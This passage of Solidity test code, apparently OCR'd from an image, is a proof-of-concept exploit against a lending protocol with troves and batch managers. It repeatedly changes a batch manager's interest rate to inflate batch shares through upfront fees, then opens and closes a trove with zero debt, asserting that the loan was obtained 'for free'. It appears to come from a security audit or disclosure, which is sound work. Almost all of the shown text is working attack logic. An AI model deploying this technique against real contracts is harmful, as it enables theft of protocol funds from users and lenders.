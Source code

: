 ```solidity
            _openCloseRemainderLoop(1, BTroveId);
        }

        _logTrovesAndBatch(B, BTroveId);

        // === 3: Compound gains === //
        // We can now spam
        // Each block, we will rebase the share by charging the upfrontFee
        // This endsup taking
        uint256 y;
        while(y < 2560) {
            _triggerInterestRateFee();
            y++;

            LatestTroveData memory troveData = troveManager.getLatestTroveData(BTroveId);
            // This flags that we can borrow for free
            if(troveData.entireDebt > 4000e18 + 1) {
                break;
            }
        }
        // 2391 blocks
        console2.log("We have more than 2X MIN_DEBT of rebase it took us blocks:", y);

        _logTrovesAndBatch(B, BTroveId);


        // === 4: Free Loans === //
        uint256 debtB4 = borrowerOperations.getEntireSystemDebt();
        // We can now open a new Trove
        uint256 anotherATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);
        LatestTroveData memory anotherATrove = troveManager.getLatestTroveData(anotherATroveId);
        uint256 aDebt = anotherATrove.entireDebt;

        // It will pay zero debt
        assertEq(aDebt, 0, "Forgiven");

        uint256 balB4 = boldToken.balanceOf(A);
        closeTrove(A, anotherATroveId);
        uint256 balAfter = boldToken.balanceOf(A);

        // And we can repeat this to get free debt
        uint256 debtAfter = borrowerOperations.getEntireSystemDebt();

        assertEq(balB4, balAfter, "No thing was paid");
        assertGt(debtAfter, debtB4, "We got it for free");
    }
    
    uint128 subTractor = 1;

    // Trigger interest fee by changing the fee to it -1 
    function _triggerInterestRateFee() internal {
        // Add Fee?
        vm.warp(block.timestamp + 1);
        vm.startPrank(B);
        borrowerOperations.setBatchManagerAnnualInterestRate(1e18 - subTractor++, 0, 0, type(uint256).max);
        vm.stopPrank();
    }

    

    function _logTroveInBatch(uint256 troveId) internal {
```